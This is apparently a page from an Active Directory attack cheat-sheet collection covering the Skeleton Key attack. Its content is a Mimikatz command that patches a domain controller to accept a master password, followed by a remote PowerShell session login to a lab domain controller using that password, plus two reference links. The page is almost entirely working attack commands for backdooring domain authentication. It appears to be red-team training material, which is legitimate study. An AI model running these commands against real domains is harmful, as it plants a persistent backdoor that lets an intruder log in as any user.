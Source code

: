 ```yaml
---
layout: page
title: "# Skeleton Key Attack"
permalink: /ad_cheatsheets/skeleton_key_attack
---
```


# Skeleton Key Attack

## Load Skeleton Key

```powershell
Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"'
```

```powershell
Enter-PSSession -ComputerName dcorp-dc.dollarcorp.moneycorp.local-Credential dcorp\administrator (password:mimikatz)
```

## Resources

[Attackers Can Now Use Mimikatz to Implant Skeleton Key on Domain Controllers & BackDoor Your Active Directory Forest](https://adsecurity.org/?p=1275)

[Skeleton Key](https://book.hacktricks.xyz/windows/active-directory-methodology/skeleton-key)
